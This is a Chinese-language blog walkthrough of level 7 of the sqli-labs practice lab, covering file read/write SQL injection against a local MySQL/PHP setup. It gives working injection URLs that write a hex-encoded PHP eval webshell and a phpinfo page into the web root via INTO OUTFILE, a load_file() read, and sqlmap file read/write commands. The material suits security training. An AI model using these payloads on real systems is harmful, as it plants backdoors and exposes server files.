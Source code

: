 ```yaml
---
 title: Sqlilabs通关笔记(7)读写注入
 date: 2020-01-04 09:34:26
 tags: SQL注入
 categories: SQL注入
---
```



## 第七关 基于文件写入注入
![2020-1-5-8-11-29](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-5-8-11-29)

### 存在注入点判断
1. 任意输入单引号，会显示报错
2. 正常运行提示 Use outfile...... 所以理解为写入mm文件执行
3. 通过尝试发现闭合'))，通过查看源代码，再次确定闭合成功

    ```
        $sql="SELECT * FROM users WHERE id=(('$id')) LIMIT 0,1";
    $result=mysql_query($sql);
    $row = mysql_fetch_array($result);

        if($row)
        {
        echo '<font color= "#FFFF00">';	
        echo 'You are in.... Use outfile......';
        echo "<br>";
        echo "</font>";
        }
        else 
        {
        echo '<font color= "#FFFF00">';
        echo 'You have an error in your SQL syntax';
        //print_r(mysql_error());
        echo "</font>";  
        }
    }
        else { echo "Please input the ID as parameter with numeric value";}

    ```
<!--more-->
### 写入文件配置（使用条件）

**secure-file-priv**
    - 如果文件导入不成功,确认Mysql配置文件my.ini下存在secure-file-priv
    - secure-file-priv参数是用来限制LOAD DATA, SELECT … OUTFILE, and LOAD_FILE()传到哪个指定目录的

* secure_file_priv的值为null ，表示限制mysqld不允许导入|导出
* secure_file_priv的值为/tmp/ ，表示限制mysqld的导入|导出只能发生在/tmp/目录下
* secure_file_priv的值没有具体值时，表示不对mysqld的导入|导出做限制

mysql使用以下命令查看是否打开文件写入开关
> show global variables like '%secure%'

![2020-1-5-9-9-4](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-5-9-9-4)

修改my.ini添加secure-file-priv参数,没有填具体值表示不做限制(这样做其实很危险)
![2020-1-5-9-9-20](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-5-9-9-20)

重启mysql即可

### 写入敏感文件

写入一句话木马
> http://127.0.0.1/sqlilabs2/Less-7/index.php?id=-1')) union select 1,0x3c3f706870206576616c28245f504f53545b636d645d293b3f3e,3 into outfile "E:\\softs\\phpstudy_pro\\WWW\\sqlilabs2\\Less-7\\mm2.php"--+

写入phpinfo
> http://127.0.0.1/sqlilabs2/Less-7/index.php?id=1')) 1,0x3c3f70687020706870696e666f28293b3f3e,3 into outfile "E:\\softs\\phpstudy_pro\\WWW\\sqlilabs2\\Less-7\\pp2.php--+

**写入需要注意的**
* 写入的内容需要用hex转码，以防拦截
* 写入的前提需要知道物理文件路径
* 写入的前提是有权限写入，或者有配置写入的权限

**可以在文件目录查看发现文件写入成功**

![2020-1-5-9-9-49](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-5-9-9-49)

**同时网页可以直接访问该文件并执行**

![2020-1-5-9-10-10](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-5-9-10-10)


### 读取敏感文件
- **前提要有页面输出哦！**
> http://127.0.0.1/sqlilabs2/Less-3/index.php?id=-1') union select 1,load_file('e:\\mm.php'),3--+



### SQLMQP 读写文件

**文件读取**

> sqlmap -u "http://127.0.0.1/sqlilabs2/Less-1/index.php?id=1" --file-read "E:\\mm.php"

**文件写入**
> sqlmap -u "http://127.0.0.1/sqlilabs2/Less-7/index.php?id=1" --file-write "/home/bb/1.txt" --file-dest "E:\\sql2.php" --batch